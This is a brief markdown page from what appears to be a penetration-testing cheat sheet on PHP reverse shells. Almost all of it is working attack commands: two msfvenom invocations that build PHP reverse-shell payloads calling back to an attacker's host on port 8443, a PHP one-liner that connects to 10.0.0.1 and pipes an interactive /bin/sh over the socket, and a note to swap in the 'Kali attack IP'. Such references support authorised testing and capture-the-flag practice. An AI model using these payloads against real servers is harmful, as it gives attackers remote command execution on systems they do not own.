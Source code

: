 ```yaml
---
title: PHP Reverse Shells
layout: default
nav_order: 4
parent: Reverse Shells

---
```


# PHP Reverse Shell
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=8443 -f raw > shell.php
```

### Non-Meterpreter
```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=8443 -f raw > shell.php
```

```php
php -r '$sock=fsockopen("10.0.0.1",8443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
NOTE: Change the `10.0.0.1` parameter to actual Kali attack IP

Reference - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
